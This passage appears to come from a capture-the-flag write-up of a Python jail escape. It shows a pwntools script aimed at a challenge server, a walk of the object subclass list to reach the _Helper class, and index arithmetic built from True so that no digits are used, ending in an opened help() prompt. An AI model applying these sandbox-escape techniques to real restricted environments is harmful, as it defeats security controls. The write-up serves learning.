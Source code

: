 So the first thing is to invoke the help() function. It can be found in :

```python
>> ().__class__.__base__.__subclasses__()
[..., <class '_sitebuiltins._Helper'>, ...]
```

We can find its index:

```python
from pwn import *

p = remote("0.cloud.chals.io", 33618)
p.recvuntil(b">> ")
p.sendline(b"().__class__.__base__.__subclasses__()")
res = p.recvline().decode()
print(res.split(", ").index("<class '_sitebuiltins._Helper'>"))
```

Output is 159. So we need to access 159 of the array. But, we cannot use digits directly. Instead, we use `True` as if we have integers:

```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True]
# A=10, B=10*10=100, C=10*5=50, D=10+100+50-1=159
[10, 100, 50, 159]
```

Now that `D` is `159`, we can access the `<class '_sitebuiltins.Helper'>` and call it twice to invoke `help()`:

```python
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]]
[10, 100, 50, 159, <class '_sitebuiltins._Helper'>]
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]()]
[10, 100, 50, 159, Type help() for interactive help, or help(object) for help about object.]
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]()()]
>> [A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,C:=A+A+A+A+A,D:=A+B+C-True,().__class__.__base__.__subclasses__()[D]()()]
Welcome to Python 3.12's help utility! If this is your first time using
Python, you should definitely check out the tutorial at
https://docs.python.org/3.12/tutorial/.

Enter the name of any module, keyword, or topic to get help on writing
Python programs and using Python modules.  To get a list of available
modules, keywords, symbols, or topics, enter "modules", "keywords",
"symbols", or "topics".

Each module also comes with a one-line summary of what it does; to list
the modules whose name or summary contain a given string such as "spam",
enter "modules spam".

To quit this help utility and return to the interpreter,
enter "q" or "quit".

help> 
```
